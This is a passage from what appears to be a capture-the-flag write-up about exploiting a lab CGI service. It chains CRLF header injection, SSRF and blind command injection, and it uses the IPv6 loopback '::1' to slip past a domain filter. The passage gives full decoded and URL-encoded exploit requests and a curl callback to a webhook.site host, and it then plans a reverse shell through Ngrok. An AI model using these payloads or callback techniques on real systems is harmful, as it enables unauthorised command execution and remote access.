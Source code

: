 Which indicates that I did something wrong in my payload, and yeah I found what was wrong with my payload, I should test ::1, instead of 127.0.0.1

Here’s the kicker: our forged request via CRLF (in name) **injects a whole new request**, but our target=127.0.0.1 up front **breaks the outer logic** — the outer script sees 127.0.0.1, flags it as **invalid**, and exits early — **before** our **injected inner request is even reached or parsed**.

**Why ::1 Works**

  ::1 is the **IPv6 loopback address** (equivalent to 127.0.0.1 in IPv4), but guess what? It **bypasses** that domain regex filter because:
1. It has **no dots** like 127.0.0.1 (which breaks the a.b TLD pattern).
2. It looks more “domain-like” when obfuscated (especially when buried in a forged Content-Type header).
3. It **still resolves to localhost internally**, so the SSRF and command injection land exactly where they should.


So, I've updated my payload:

Decoded URL (For clarification only):
```
GET /cgi-bin/attack-domain?target=Glitch&name=a1
Location: /azx
Content-type: proxy:http://127.0.0.1/cgi-bin/attack-ip?target=::1%$(id)&name=

 HTTP/1.1
```
Encoded URL: (Always Ensure URL Encodeing)!
```
GET /cgi-bin/attack-domain?target=Glitch&name=a1%0d%0aLocation:+/azx%0d%0aContent-type:+proxy:http://127.0.0.1/cgi-bin/attack-ip%3ftarget=::1%$(id)%26name=%0d%0a%0d%0a HTTP/1.1
```

and guess what?!
It worked, we didn't get an error nor bad request in the response.
I got the following response:
`<p>The document has moved <a href="../?result=Succesfully attacked ::1%$(id)!">here</a>`

This indicates that our target has been attacked successfully and we were able to inject our command in the target. Which was `id`. But why didn't we get the feedback of our injected command? yeah it is a blind command injection. We couldn't see the output of our command. This makes the attack even more complicated.


###### **Next step?**
We should verify if our command being executed, so I've decided to use **webhook.site** to see if I get some response from the the server that were I was targeting. So I've injected the following command: **$(curl%2bhttps://webhook.site/4a548bab-700e-4dc2-8f47-0949f09aaecd**) to ensure if my command being executed, but guess what? I got an error. Yeah my payload has a **dot**, which causes this error. This is very annoying. But I've assumed that my commands are working. So, I've decided to get a reverse shell directly.

###### **The problem?**
We don't have VPN connection to the target, so we cannot get a reverse shell directly. Lucky, we can use **Ngrok**  to receive a **reverse shell** even if you’re not on the same network. This tool creates a **public-facing tunnel** to our machine — allowing the target (the server) to connect back to us.

